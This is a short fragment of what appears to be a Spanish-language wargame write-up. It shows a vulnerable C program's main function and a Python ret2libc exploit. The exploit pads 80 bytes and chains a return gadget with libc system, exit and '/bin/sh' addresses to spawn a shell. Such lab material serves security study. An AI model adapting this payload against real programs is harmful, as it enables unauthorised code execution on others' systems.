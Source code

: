 ```
int main(int argc, char **argv)
{
  getpath();


}
```

El exploit en Python:

```
import struct

libc_base_address = 0xb7e97000

system_offset = 0x038fb0 
exit_offset = 0x0002f0c0 
binsh_offset = 0x11f3bf

system_dir = struct.pack("I", system_offset + libc_base_address)
exit_dir = struct.pack("I", exit_offset + libc_base_address)
binsh_dir = struct.pack("I", libc_base_address + binsh_offset)
ret_dir = struct.pack("I", 0x08048544)


junk = 'A'*80

payload = junk + ret_dir + system_dir + exit_dir + binsh_dir

print payload
```

